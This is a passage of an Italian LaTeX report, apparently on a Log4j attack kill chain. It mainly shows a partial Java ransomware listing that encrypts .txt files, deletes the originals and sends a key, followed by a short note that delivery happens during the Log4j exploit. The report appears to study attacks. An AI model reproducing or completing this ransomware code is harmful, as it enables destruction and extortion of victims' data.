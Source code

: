 \documentclass[a4paper, 12pt]{article}
\begin{document}
\begin{figure}
    \centering
    \begin{lstlisting}
    public class Ransomware {
        private final static SecretKey key = Ransomware.generateKey();
        private final static String publicKey = "__public.key__";
    
        public Ransomware() throws Exception {
            Ransomware.sendKey();
            Ransomware.fireUp();
            while (true) {
                Ransomware.recover();
            }
        }
    
        private static void fireUp() {
            File file = new File(baseDir);
            File[] files = file.listFiles(new FilenameFilter() {
                @Override
                public boolean accept(File dir, String name) {
                    return name.toLowerCase().endsWith(".txt");
                }
            });
            for (File f : files) {
                Ransomware.encryptRoutine(baseDir + f.getName());
            }
        }
    
        private static void encryptRoutine(String fileName) {
            File inputFile = new File(fileName);
            File encryptedFile = new File(fileName + ".encrypted");
            try {
                Ransomware.encrypt(inputFile, encryptedFile);
                System.out.println(inputFile + " is encrypted now");
                inputFile.delete();
            } catch (Exception e) {
                System.out.println(e.getMessage());
                e.printStackTrace();
            }
        }
    }
\end{lstlisting}
    \caption{Ransomware - Codice Java}
    \label{fig:ransomware}
\end{figure}

\subsubsection{Delivery}
In un attacco che sfrutta Log4j la fase di Delivery non è presente poiché la trasmissione e la seguente esecuzione del malware vengono effettuati durante l'exploit della vulnerabilità legata alla libreria di logging.
\end{document}
